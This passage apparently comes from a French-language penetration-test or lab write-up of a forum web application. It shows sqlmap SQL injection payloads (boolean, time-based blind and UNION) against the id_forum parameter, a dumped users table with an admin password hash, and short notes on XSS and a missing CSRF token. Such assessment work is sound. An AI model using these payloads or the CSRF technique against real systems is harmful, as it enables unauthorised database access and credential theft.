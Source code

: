 ````
    Payload: id_forum=(SELECT (CASE WHEN (9231=9231) THEN 1 ELSE (SELECT 1353 UNION SELECT 5270) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id_forum=1 AND (SELECT 1436 FROM (SELECT(SLEEP(5)))gUEC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: id_forum=1 UNION ALL SELECT CONCAT(0x716a787171,0x50765852767871455a696c7369545648557849744a6e66686873594c655759676f5555774e584641,0x7170766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[13:13:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56, PHP, PHP 8.2.5
back-end DBMS: MySQL >= 5.0.12
[13:13:22] [INFO] fetching columns for table 'users' in database 'forum'
[13:13:22] [WARNING] reflective value(s) found and filtering out
[13:13:22] [INFO] fetching entries for table 'users' in database 'forum'
Database: forum
Table: users
[1 entry]
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
| ip    | mdp         | nom            | actif               | email      | login                                                            | code   | prenom  | admin   | dateaction          | dateinscription |
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
| admin | APPLICATION | Administrateur | 2025-04-04 16:35:52 | 172.18.0.1 | 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 | O      | <blank> | O       | 2025-04-04 16:35:52 | admin@appli.fr  |
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+

````

# XSS 

![xss](xss.png)

# CSRF 

Il n'y a pas de jeton CSRF

On peut créer une page qui profite du fait que les cookies ne sont pas bien protégés. Si un admin visite cette page, un formulaire caché va s’envoyer tout seul grâce à du JavaScript, et ça peut supprimer n’importe quel topic à sa place.



